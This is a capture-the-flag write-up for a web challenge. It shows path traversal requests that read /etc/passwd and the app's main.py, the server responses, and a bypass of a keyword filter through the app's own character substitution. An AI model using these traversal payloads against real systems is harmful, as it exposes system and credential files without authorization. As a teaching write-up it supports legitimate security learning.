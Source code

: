 # VUCTF2025 Roomba-Rebellion
In this web challenge, we are given a website where we can download log files.
![homepage](https://github.com/TSpeel/writeups/tree/main/VUCTF2025/Roomba-Rebellion/images/homepage.png)

## Initial vulnerability
The site does not seem to have any attack surface other than this download functionality. The most basic attack to try here is path traversal with a payload as follows:
```
GET /download?file=../../../etc/passwd
```
This results in the following response which shows that the path traversal worked!
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:12:14 GMT
Content-Disposition: inline; filename=passwd
Content-Type: application/octet-stream
Content-Length: 839
Last-Modified: Mon, 28 Apr 2025 00:00:00 GMT
Cache-Control: no-cache
ETag: "1745798400.0-839-2620983797"
Date: Sat, 10 May 2025 15:12:14 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Now we can try to see if the file system contains a flag:
```
GET /download?file=../../../flag.txt
```
The result however shows that we hit some kind of input filter:
```
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:12:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 32
Connection: close

Roomba Error: Hacking DETECTED!!
```
Now the challenge is clear, we have to find a way to bypass this filter.

## Failed attempts
In my initial attempts, I tried some ways to bypass generic filters. I tried url-encoding `flag.txt` to `%66%6c%61%67%2e%74%78%74`, and I also tried double url-encoding it to `%25%36%36%25%36%63%25%36%31%25%36%37%25%32%65%25%37%34%25%37%38%25%37%34`.
Both these attempts were unsuccessful. 
I then tried to see if I could somehow leak `flag.txt` through file descriptors stored in `/proc/`. In `/proc` I could find some information about the running processes, but I did not manage to leak the flag in this way.

## Leaking `main.py`
While the previous failed attempts did not result in a flag, they did result in some error messages about non-existing files, which showed that the directory we are looking in before traversing is `/app/static`.
We also already knew this is a Python application from the `Server` header in earlier responses.
These clues point to an existing `main.py` file existing in `/app/`.
We can leak this file with the following payload:
```
GET /download?file=../main.py
```
This results in the following response containing the source code:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:08:05 GMT
Content-Disposition: inline; filename=main.py
Content-Type: text/x-python; charset=utf-8
Content-Length: 1030
Last-Modified: Sat, 10 May 2025 08:53:06 GMT
Cache-Control: no-cache
ETag: "1746867186.640631-1030-1462110110"
Date: Sat, 10 May 2025 15:08:05 GMT
Connection: close

from flask import Flask, request, send_file, render_template
import os

def filter(filename: str) -> str:
    filename = filename.replace('R', 'f')
    filename = filename.replace('O', 'g')
    filename = filename.replace('O', 'h')
    filename = filename.replace('M', 'x')
    filename = filename.replace('B', 'j')
    filename = filename.replace('A', 'k')
    return filename

app = Flask(__name__)
BASE_DIR = os.path.abspath(os.path.dirname(__file__))

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/download')
def download():
    filename = request.args.get('file', '')
    if any(keyword in filename for keyword in ['g.t', 'flag.txt', 'txt', 'flag']):
        return "Roomba Error: Hacking DETECTED!!", 400
    
    filename = filter(filename)
    file_path = os.path.join(BASE_DIR, 'static', filename)
    try:
        return send_file(file_path)
    except Exception as e:
        return f"Roomba Error: {str(e)}", 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

## Bypassing the filter
The leaked `main.py` file not only shows the workings of the input filter as we expected, but also contains another `filter()` function we can use to write characters to bypass the input filter.
We have to write `flag.txt` without the substrings `g.t`, `txt` and `flag` being present. We can do this by replacing `g` and `x` with `O` and `M` respectively. 
`O` and `M` will then be replaced again with `g` and `x` respectively by the `filter()` function after the input filter has been bypassed.
This leaves us with the following request to retrieve the flag:
```
GET /download?file=../flaO.tMt
```
And indeed, we successfully get the flag in the response!
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:09:45 GMT
Content-Disposition: inline; filename=flag.txt
Content-Type: text/plain; charset=utf-8
Content-Length: 35
Last-Modified: Sat, 10 May 2025 08:53:06 GMT
Cache-Control: no-cache
ETag: "1746867186.640631-35-1594099722"
Date: Sat, 10 May 2025 15:09:45 GMT
Connection: close

VUCTF{REDACTED}
```
